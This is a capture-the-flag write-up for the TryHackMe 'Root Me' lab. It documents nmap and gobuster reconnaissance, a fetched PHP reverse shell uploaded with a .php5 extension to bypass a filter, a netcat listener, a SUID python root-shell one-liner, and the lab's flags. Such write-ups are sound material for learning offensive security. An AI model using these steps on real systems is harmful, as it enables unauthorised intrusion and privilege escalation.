





# Root Me
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

**nc**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

--------------------------------------------------------------------
## GIVEN INFO

**IP Address**: 10.10.142.72<br>
**Internal Virtual IP Address**: 10.6.40.234

--------------------------------------------------------------------
## PROCEDURE

### 1. FIND EXPOSED SERVICES

**TOOLS**: nmap

```
nmap -sV -oN nmap.txt 10.10.142.72
```



**PORTS OPEN** =<br>
22 (TCP) ssh, <br>
80 (TCP) http <br>

**APACHE VERSION** = 2.4.29

--------------------------------------------------------------------

### 2. FIND HIDDEN DIR ON WEB SERVER

**TOOLS**: gobuster

```
gobuster dir -u http://10.10.142.72 -w /usr/share/wordlists/dirb/common.txt
```
dir: directory brute force<br>
-u: website<br>
-w: wordlist



--------------------------------------------------------------------

### 3. GET A SHELL

**TOOLS**: netcat

Get shell code from pentestmonkey. Change file ext to php5 so we can bypass file upload restriction
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php payload.php5
```

Change IP address to your IP address and upload file to http://10.10.142.72/panel

```
nc -nlvp 4444
```

-n: number only<br>
-l: listen mode<br>
-v: verbose<br>
-p: port<br>

Go to http://10.10.142.72/uploads/ and click on payload.php5



```
find / -name user.txt
```



USER.TXT CONTENT: THM{y0u_g0t_a_sh3ll}

--------------------------------------------------------------------

### 4. PRIVILEGE ESCALATION

```
find / -user root -perm /4000 2>/dev/null
```
Find root user with SUID permission (4000)<br>
2>/dev/null gets rid of all the "Permission Denied" hits

FILE: /usr/bin/python



All the other files listed are always accessible to all users so not exploitable

Steps for privilege escalation with python SUID:
https://gtfobins.github.io/gtfobins/python/#suid

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
find / -name root.txt
```

ROOT.TXT CONTENT: THM{pr1v1l3g3_3sc4l4t10n}
